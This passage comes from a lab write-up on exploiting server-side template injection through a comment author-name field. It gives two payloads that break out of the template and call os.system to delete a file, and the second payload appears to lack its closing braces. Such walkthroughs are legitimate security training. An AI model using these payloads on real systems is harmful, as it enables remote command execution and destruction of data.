 Now when we go to any post and post a comment we can see our name

<img src="images/image8.jpg" alt="third" width="500">

**Step4:**

Now we use this payload to delete morale.txt

`}}{{ __import__('os').system('rm /home/carlos/morale.txt') }}`

<img src="images/image9.jpg" alt="third" width="500">

Click on follow redirection to see response

And the lab is solved

Alternative payload
`{% import os %} {{os.system('rm /home/carlos/morale.txt')`
